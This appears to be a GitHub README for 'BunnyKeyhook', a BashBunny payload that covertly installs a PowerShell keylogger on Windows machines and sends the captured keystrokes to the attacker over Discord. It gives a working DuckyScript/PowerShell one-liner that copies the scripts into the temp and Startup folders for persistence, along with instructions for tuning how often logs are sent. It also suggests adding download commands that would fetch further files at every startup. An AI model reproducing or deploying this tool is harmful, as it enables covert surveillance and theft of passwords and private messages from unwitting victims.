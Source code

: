 # BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
__________                            ____  __.            .__                   __    
\______   \__ __  ____   ____ ___.__.|    |/ _|____ ___.__.|  |__   ____   ____ |  | __
 |    |  _/  |  \/    \ /    <   |  ||      <_/ __ <   |  ||  |  \ /  _ \ /  _ \|  |/ /
 |    |   \  |  /   |  \   |  \___  ||    |  \  ___/\___  ||   Y  (  <_> |  <_> )    < 
 |______  /____/|___|  /___|  / ____||____|__ \___  > ____||___|  /\____/ \____/|__|_ \
        \/           \/     \/\/             \/   \/\/          \/                   \/   
```

## Overview:
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Instructions:
Set-Up/Installation
1. in line 17 of *duckyscript.txt*, change change `'BashBunny'` to the name of your Bash Bunny
2. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
